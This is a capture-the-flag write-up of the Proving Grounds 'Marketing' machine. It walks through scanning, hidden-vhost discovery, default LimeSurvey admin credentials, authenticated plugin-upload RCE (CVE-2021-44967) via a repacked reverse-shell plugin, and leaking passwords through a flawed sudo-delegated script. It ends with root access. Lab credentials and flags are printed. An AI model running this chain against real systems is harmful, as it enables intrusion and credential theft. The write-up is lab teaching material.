

# Marketing (Proving Grounds) Writeup

| Metadata | Value |
|---|---|
| Target | Marketing |
| Platform | Proving Grounds |
| Target IP | 192.168.178.225 |
| Analyst | morimori |
| 主な侵入経路 | LimeSurvey 5.3.24 RCE (CVE-2021-44967) |
| 権限昇格経路 | Credential discovery -> `su` user switch -> `sudo` abuse -> root |

## 概要

| Item | Details |
|---|---|
| OS | Linux |
| 難易度 | 記録なし in the notes |
| 攻撃対象 | `22/tcp` (SSH), `80/tcp` (Apache HTTP), virtual host `customers-survey.marketing.pg`, LimeSurvey admin panel |
| Key Vulnerabilities | Default credentials (`admin:password`), authenticated LimeSurvey plugin RCE (CVE-2021-44967), plaintext credentials in config/notes, risky sudo delegation |

## 偵察

### Port Scanning

```bash
✅[12:22][CPU:31][MEM:74][TUN0:192.168.45.166][/home/n0z0]
🐉 > rustscan -a $ip -r 1-65535 --ulimit 5000
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Open ports, closed hearts.

[~] The config file is expected to be at "/home/n0z0/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.178.225:22
Open 192.168.178.225:80

```

```bash
✅[12:22][CPU:52][MEM:74][TUN0:192.168.45.166][/home/n0z0]
🐉 > timestamp=$(date +%Y%m%d-%H%M%S)
output_file="$HOME/work/scans/${timestamp}_${ip}.xml"

grc nmap -p- -sCV -sV -T4 -A -Pn "$ip" -oX "$output_file"

echo -e "\e[32mScan result saved to: $output_file\e[0m"
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-20 12:22 JST
Nmap scan report for 192.168.178.225
Host is up (0.082s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: marketing.pg - Digital Marketing for you!
|_http-server-header: Apache/2.4.41 (Ubuntu)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3306/tcp)
HOP RTT      ADDRESS
1   79.71 ms 192.168.45.1
2   79.68 ms 192.168.45.254
3   79.72 ms 192.168.251.1
4   79.76 ms 192.168.178.225

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 69.50 seconds
Scan result saved to: /home/n0z0/work/scans/20260220-122240_192.168.178.225.xml

```

💡 なぜ有効か  
Port and service enumeration builds the full external attack surface and identifies where to focus web and SSH testing. Version fingerprints also hint at likely vulnerabilities and exploit paths. Here, HTTP on `80/tcp` became the main entry point while SSH was useful for post-exploitation context.

### Automated Checks and Manual Web Enumeration

```bash
✅[12:33][CPU:16][MEM:77][TUN0:192.168.45.166][/home/n0z0]
🐉 > nuclei -u http://$ip -tags tech,cms,cve -severity low,medium,high,critical


                     __     _
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   v3.4.10

		projectdiscovery.io

[WRN] Found 1 templates with syntax error (use -validate flag for further examination)
[INF] Current nuclei version: v3.4.10 (outdated)
[INF] Current nuclei-templates version: v10.3.9 (latest)
[INF] New templates added in latest release: 182
[INF] Templates loaded for current scan: 3958
[INF] Executing 3958 signed templates from projectdiscovery/nuclei-templates
[INF] Targets loaded for current scan: 1
[INF] Templates clustered: 53 (Reduced 40 Requests)
[INF] Using Interactsh Server: oast.fun
[CVE-2023-48795] [javascript] [medium] 192.168.178.225:22 ["Vulnerable to Terrapin"]
[INF] Scan completed in 42.057129374s. 1 matches found.

```

`CVE-2023-48795` (Terrapin) was detected on SSH but did not directly help with initial access in this scenario.  
Terrapin is an SSH transport-layer prefix truncation issue that can weaken integrity guarantees under specific man-in-the-middle conditions.

  
*Caption: The default web content did not expose sensitive information or direct exploit paths.*

```bash
✅[7:56][CPU:19][MEM:66][TUN0:192.168.45.166][/home/n0z0]
🐉 > export domain=marketing.pg

✅[7:56][CPU:19][MEM:65][TUN0:192.168.45.166][/home/n0z0]
🐉 > ffuf -H "Host: FUZZ.$domain" -u http://$ip -mc 200,301,302,403 -ac -ic -c -t 50  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt


        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.178.225
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.marketing.pg
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: 200,301,302,403
________________________________________________

:: Progress: [114438/114438] :: Job [1/1] :: 477 req/sec :: Duration: [0:03:50] :: Errors: 0 ::

```

Enumeration performed:
- Directory listing (`feroxbuster`, `dirb`)
- Subdomain fuzzing (`ffuf`)
- `nikto`
- `nuclei`
- `whatweb`
- Manual browsing and source review

  
*Caption: Reviewing legacy page source exposed an internal survey subdomain reference.*

  
*Caption: Added virtual host mapping locally to access the hidden survey application.*

  
*Caption: The primary page omitted the subdomain clue found in the older page version.*

  
*Caption: The discovered subdomain hosted a CMS instance, increasing exploit opportunities.*

```bash
✅[0:27][CPU:16][MEM:63][TUN0:192.168.45.166][/home/n0z0]
🐉 > diff <(curl -s http://$ip/index.html) <(curl -s http://$ip/old/index.html)
215a216,279
>   <section class="services" id="services">
>     <div class="container">
>       <div class="row">
>         <div class="col-lg-12">
>           <div class="section-heading">
>             <h6>Our Methods</h6>
>             <h4>Provided <em>Plattforms</em></h4>
>           </div>
>         </div>
>         <div class="col-lg-12">
>           <div class="owl-service-item owl-carousel">
>
>
>             <div class="item">
>               <div class="service-item">
>                 <div class="icon">
>                   
>                 </div>
>                 <h4>Market Research</h4>
>                 <p>You have to know your target markets and customers, in order to adjust your products to their needs.</p>
>               </div>
>             </div>
>
>
>  <div class="item">
>               <div class="service-item">
>                 <div class="icon">
>                   
>                 </div>
>                 <h4>Surveys</h4>
>                 <p>
> In order to better understand the wishes of your target group, we provide surveys <a href="//customers-survey.marketing.pg">here</a></p>
>               </div>
>             </div>
>
>
> <div class="item">
>               <div class="service-item">
>                 <div class="icon">
>                   
>                 </div>
>                 <h4>SEO</h4>
>                 <p>To further build your business on the internet, good search engine optimisation is necessary.</p>
>               </div>
>             </div>
>
>             <div class="item">
>               <div class="service-item">
>                 <div class="icon">
>                   
>                 </div>
>                 <h4>Beautiful Design</h4>
>                 <p>An appealing design of your website is just as relevant, therefore our designers also offer you support in this area.</p>
>               </div>
>             </div>
>
>           </div>
>         </div>
>       </div>
>     </div>
>   </section>

```

💡 なぜ有効か  
Legacy or alternate page versions often contain references to hidden functionality that is not visible on the current production page. Diffing old and new content is a high-signal way to discover vhosts, endpoints, and forgotten integrations. In this case, a single hidden anchor disclosed the real attack surface.

## 初期足がかり

### Accessing LimeSurvey and Valid Credentials

Login endpoint found:  
`http://customers-survey.marketing.pg/index.php/admin/authentication/sa/login`

  
*Caption: The survey subdomain exposed a direct admin login portal.*

  
*Caption: Confirmed valid admin panel route and form behavior.*

`admin:password` worked successfully.

  
*Caption: Default credentials granted authenticated access to the CMS dashboard.*

💡 なぜ有効か  
Default credentials remain one of the most common real-world weaknesses, especially in internally deployed CMS platforms. Once authenticated as admin, exploitability usually increases sharply because plugin/theme upload features become reachable. This bypasses many unauthenticated hardening controls.

### Exploiting LimeSurvey 5.3.24 (CVE-2021-44967)

Detected version: `5.3.24`

  
*Caption: Version information aligned with known authenticated RCE exploit paths.*

Exploit usage reference:

  
*Caption: Adjusted reverse shell IP/port in the plugin payload before deployment.*

`CVE-2021-44967` is an authenticated remote code execution issue in LimeSurvey where a crafted plugin can be uploaded and executed when plugin controls are abused by an authenticated admin user.

Repacked plugin after changing callback IP/port:

```bash
✅[2:29][CPU:18][MEM:75][TUN0:192.168.45.166][.../Marketing/Limesurvey-RCE]
🐉 > zip -r Y1LD1R1M.zip config.xml php-rev.php
updating: config.xml (deflated 56%)
updating: php-rev.php (deflated 60%)

```

Plugin upload/activation sequence:

  
*Caption: Uploaded the crafted plugin archive to the LimeSurvey plugin manager.*

  
*Caption: The server accepted and extracted the plugin payload.*

  
*Caption: Verified plugin files were placed under the web-accessible upload path.*

  
*Caption: Completed admin-side actions required before direct payload execution.*

Triggered reverse shell directly:

```bash
✅[2:32][CPU:3][MEM:79][TUN0:192.168.45.166][.../Marketing/Limesurvey-RCE]
🐉 > curl http://customers-survey.marketing.pg/upload/plugins/Y1LD1R1M/php-rev.php
```

  
*Caption: Direct request to the uploaded PHP payload resulted in shell access.*

Obtained user flag:

```bash
t.miller@marketing:~$ cat local.txt
693ac8f6337088d28a345aac3b7ade08

```

💡 なぜ有効か  
The exploit chain requires authenticated admin rights, then abuses plugin upload functionality to place executable PHP under a web-accessible path. Once the payload exists on disk, requesting it over HTTP executes server-side code in the web context. This is a classic authenticated CMS-to-RCE transition.

## 権限昇格

### Credential Discovery in Application Config

```bash
╔══════════╣ Searching passwords in config PHP files
/var/www/LimeSurvey/application/config/config-defaults.php:$config['display_user_password_in_email'] = true;
/var/www/LimeSurvey/application/config/config-defaults.php:$config['display_user_password_in_html'] = false;
/var/www/LimeSurvey/application/config/config-defaults.php:$config['maxforgottenpasswordemaildelay'] = 1500000;
/var/www/LimeSurvey/application/config/config-defaults.php:$config['minforgottenpasswordemaildelay'] = 500000;
/var/www/LimeSurvey/application/config/config-defaults.php:$config['passwordValidationRules'] = array(
/var/www/LimeSurvey/application/config/config-defaults.php:$config['use_one_time_passwords'] = false;
/var/www/LimeSurvey/application/config/config-sample-dblib.php:            'password' => 'somepassword',
/var/www/LimeSurvey/application/config/config-sample-mysql.php:            'password' => 'root',
/var/www/LimeSurvey/application/config/config-sample-pgsql.php:            'password' => 'somepassword',
/var/www/LimeSurvey/application/config/config-sample-sqlsrv.php:            'password' => 'somepassword',
/var/www/LimeSurvey/application/config/config.php:			'password' => 'EzPwz2022_dev1$$23!!',

```

Switched users with `EzPwz2022_dev1$$23!!`:

```bash
drwxr-xr-x  2 t.miller t.miller 4096 Jul 13  2022 t.miller
www-data@marketing:/home$ su m.sander
Password:
su: Authentication failure
www-data@marketing:/home$ su t.miller
Password:
t.miller@marketing:/home$

```

```bash
t.miller@marketing:/var/www/html$ cat /var/www/LimeSurvey/application/config/config.php
<?php if (!defined('BASEPATH')) exit('No direct script access allowed');
/*
| -------------------------------------------------------------------
| DATABASE CONNECTIVITY SETTINGS
| -------------------------------------------------------------------
| This file will contain the settings needed to access your database.
|
| For complete instructions please consult the 'Database Connection'
| page of the User Guide.
|
| -------------------------------------------------------------------
| EXPLANATION OF VARIABLES
| -------------------------------------------------------------------
|
|    'connectionString' Hostname, database, port and database type for
|     the connection. Driver example: mysql. Currently supported:
|                 mysql, pgsql, mssql, sqlite, oci
|    'username' The username used to connect to the database
|    'password' The password used to connect to the database
|    'tablePrefix' You can add an optional prefix, which will be added
|                 to the table name when using the Active Record class
|
*/
return array(
	'components' => array(
		'db' => array(
			'connectionString' => 'mysql:host=localhost;port=3306;dbname=limesurvey;',
			'emulatePrepare' => true,
			'username' => 'limesurvey_user',
			'password' => 'EzPwz2022_dev1$$23!!',
			'charset' => 'utf8mb4',
			'tablePrefix' => 'lime_',

```

💡 なぜ有効か  
Application config files frequently contain secrets in plaintext, especially database credentials. In many environments, password reuse between services and local users allows immediate lateral movement. That happened here: a web-exposed secret became a valid local account credential.

### Sudo Enumeration and `sync.sh` Abuse

```bash
t.miller@marketing:~$ sudo -l
[sudo] password for t.miller:
Matching Defaults entries for t.miller on marketing:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User t.miller may run the following commands on marketing:
    (m.sander) /usr/bin/sync.sh

```

Script content:

```shell
t.miller@marketing:~$ cat /usr/bin/sync.sh
#! /bin/bash

if [ -z $1 ]; then
    echo "error: note missing"
    exit
fi

note=$1

if [[ "$note" =~ .*m.sander.* ]]; then
    echo "error: forbidden"
    exit
fi

difference=$(diff /home/m.sander/personal/notes.txt $note)

if [[ -z $difference ]]; then
    echo "no update"
    exit
fi

echo "Difference: $difference"

cp $note /home/m.sander/personal/notes.txt

echo "[+] Updated."

```

```basht.miller@marketing:~$ ls -la /usr/bin/sync.sh
-rwxr-xr-x 1 root root 386 Jul 13  2022 /usr/bin/sync.sh
t.miller@marketing:~$

```

```bash
╔══════════╣ Searching passwords in config PHP files
/var/www/LimeSurvey/application/config/config-defaults.php:$config['display_user_password_in_email'] = true;
/var/www/LimeSurvey/application/config/config-defaults.php:$config['display_user_password_in_html'] = false;
/var/www/LimeSurvey/application/config/config-defaults.php:$config['maxforgottenpasswordemaildelay'] = 1500000;
/var/www/LimeSurvey/application/config/config-defaults.php:$config['minforgottenpasswordemaildelay'] = 500000;
/var/www/LimeSurvey/application/config/config-defaults.php:$config['passwordValidationRules'] = array(
/var/www/LimeSurvey/application/config/config-defaults.php:$config['use_one_time_passwords'] = false;
/var/www/LimeSurvey/application/config/config.php:			'password' => 'EzPwz2022_dev1$$23!!',
/var/www/LimeSurvey/application/config/config-sample-dblib.php:            'password' => 'somepassword',
/var/www/LimeSurvey/application/config/config-sample-mysql.php:            'password' => 'root',
/var/www/LimeSurvey/application/config/config-sample-pgsql.php:            'password' => 'somepassword',
/var/www/LimeSurvey/application/config/config-sample-sqlsrv.php:            'password' => 'somepassword',

```

Executed the delegated script with attacker-controlled input and leaked credentials from the protected note:

```bash
t.miller@marketing:~$ sudo -u m.sander /usr/bin/sync.sh fk_this_box
Difference: 1,3c1,8
< == NOTES ==
< - remove vhost from website (done)
< - update to newer version (todo)
\ No newline at end of file
---
> slack account:
> michael_sander@gmail.com - pa$$word@123$$4!!
>
> github:
> michael_sander@gmail.com - EzPwz2022_dev1$$23!!
>
> gmail:
> michael_sander@gmail.com - EzPwz2022_12345678#!
\ No newline at end of file
[+] Updated.

```

Switched to `m.sander`:

```bash
t.miller@marketing:/home$ su m.sander
Password:
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

m.sander@marketing:/home$

```

💡 なぜ有効か  
The delegated script trusts user-controlled file input and executes as another user (`m.sander`). By forcing a `diff` against a controlled file, sensitive contents of `/home/m.sander/personal/notes.txt` are printed to stdout, disclosing credentials. This is effectively a privilege boundary break through insecure sudo script design and information leakage.

### From `m.sander` to Root

```bash
t.miller@marketing:/home$ su m.sander
Password:
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

m.sander@marketing:/home$ sudo -l
[sudo] password for m.sander:
Matching Defaults entries for m.sander on marketing:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User m.sander may run the following commands on marketing:
    (ALL : ALL) ALL
m.sander@marketing:/home$ sudo su -
root@marketing:~# cat /root/proof.txt
b57df0d607ee4f3e6273b7e13a82a941

```

💡 なぜ有効か  
Once a user has `(ALL : ALL) ALL` in sudoers, they effectively have unrestricted root execution. Any shell-spawning sudo command (`sudo su -`, `sudo -i`) completes the escalation immediately. At that point, access to protected files like `/root/proof.txt` is trivial.

## まとめ・学んだこと

- Legacy or alternate web paths (`/old`) can expose hidden infrastructure references that automated scanning misses.
- Default credentials on admin CMS panels are still a critical real-world weakness.
- `CVE-2021-44967` demonstrates how authenticated plugin management can become direct RCE when upload execution controls are weak.
- Plaintext secrets in application config files are high-risk, especially when password reuse exists across services and OS accounts.
- Sudo delegation to scripts must avoid user-controlled path/content handling and unintended data disclosure.
- No GTFOBins technique was required in this compromise chain; escalation relied on credential abuse and sudo policy weaknesses.



## 参考文献

- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
- FFuF: https://github.com/ffuf/ffuf
- Nuclei: https://github.com/projectdiscovery/nuclei
- LimeSurvey RCE exploit repository: https://github.com/Y1LD1R1M-1337/Limesurvey-RCE
- CVE-2021-44967 analysis: https://ine.com/blog/cve-2021-44967-limesurvey-rce
- CVE-2023-48795 (Terrapin): https://nvd.nist.gov/vuln/detail/CVE-2023-48795
- curl: https://curl.se/
- Linux `sudo` documentation: https://man7.org/linux/man-pages/man8/sudo.8.html
